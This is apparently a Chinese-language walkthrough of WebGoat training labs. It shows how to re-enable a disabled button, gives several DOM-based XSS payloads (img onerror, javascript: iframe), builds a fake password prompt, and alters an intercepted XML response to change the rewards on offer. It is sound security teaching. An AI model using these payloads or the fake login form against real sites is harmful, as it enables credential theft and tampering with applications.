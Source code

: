 此时按钮就可以使用了,除了这个方法之外,还可以直接检查按钮

```
<input disabled="" id="SUBMIT" value="Activate!" name="SUBMIT" type="SUBMIT">

```

改disabled为false或者直接删除这个标记.

AJAX Security-LAB: DOM-Based cross-site scripting
-------------------------------------------------

这就是一个简单的反射型XSS的演示,依次输入以下内容在文本框里

```
World//正常
<IMG SRC="images/logos/owasp.jpg"/>//XSS插入图片
<img src=x onerror=;;alert('XSS') />//XSS插入Alert
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>//XSS插入iFrame

```

甚至可以直接伪造界面

```
Please enter your password:
<BR><input type = "password" name="pass"/>
<button onClick="javascript:alert('I have your password: ' + pass.value);">Submit</button>
<BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR>

```

AJAX Security-XML Injection
---------------------------

XML注入攻击,和HTML注入攻击一样,都是利用文本解析机制,写入恶意输入

1.  输入ID:836239,拦截请求
2.  修改返回报文的XML文件,给自己跟多的选择

返回报文

```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Cache-Control: no-cache
Content-Type: text/xml
Date: Tue, 08 Mar 2016 08:46:40 GMT
Content-Length: 136

<root>
<reward>WebGoat Mug 20 Pts</reward>
<reward>WebGoat t-shirt 50 Pts</reward>
<reward>WebGoat Secure Kettle 30 Pts</reward>
</root>

```
